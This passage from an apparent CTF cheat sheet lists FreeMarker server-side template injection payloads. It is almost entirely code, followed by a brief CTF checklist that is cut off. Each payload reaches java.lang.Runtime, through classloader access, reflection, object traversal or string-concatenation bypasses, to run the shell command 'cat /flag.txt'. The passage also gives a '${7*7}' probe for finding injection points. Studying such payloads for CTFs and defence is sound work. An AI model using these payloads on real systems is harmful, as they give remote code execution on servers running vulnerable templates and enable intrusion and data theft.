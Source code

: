 ```
${object?api.class.protectionDomain.classLoader.loadClass("java.lang.Runtime").getRuntime().exec("cat /flag.txt")}
```

### Java Reflection

```
<#assign classloader=object?api.class.protectionDomain.classLoader>
<#assign cls=classloader.loadClass("java.lang.Runtime")>
<#assign method=cls?api.methods[6]>
${method.invoke(cls?api.methods[7].invoke(null),"/bin/sh,-c,cat /flag.txt"?split(","))}
```

### Object Traversal for Bypass

```
${object.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cat /flag.txt")}
```

## Bypass Techniques

### String Concatenation

```
<#assign c="java.lang.Runtime"?new().exec("c"+"at /flag.txt")>
```

### Alternative Method Invocation

```
<#assign classloader=1?api.class.protectionDomain.classLoader>
<#assign cls=classloader.loadClass("java.lang.Runtime")>
<#assign r=cls.getRuntime()>
${r.exec("cat /flag.txt")}
```

### Using JNI

```
${Runtime.getRuntime().loadLibrary("path_to_library")}
```

## Practical Approach for CTFs

1. **Verify the injection point**:
    
    - Test with `${7*7}` to confirm template execution
2. **Check for restrictions**:
    
    - Some environments restrict `Execute` or direct command execution
    - Try different techniques based on restrictions
3. **Explore the environment**:
    